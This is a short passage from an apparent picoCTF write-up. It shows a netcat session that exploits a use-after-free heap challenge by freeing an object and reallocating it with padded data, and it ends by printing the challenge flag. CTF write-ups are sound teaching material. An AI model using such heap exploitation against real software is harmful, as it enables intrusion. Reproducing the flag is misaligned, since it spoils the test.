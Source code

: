 If we run this now on the server we get our actual flag:
```
$ nc tethys.picoctf.net 57658

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_c1e14587}
```
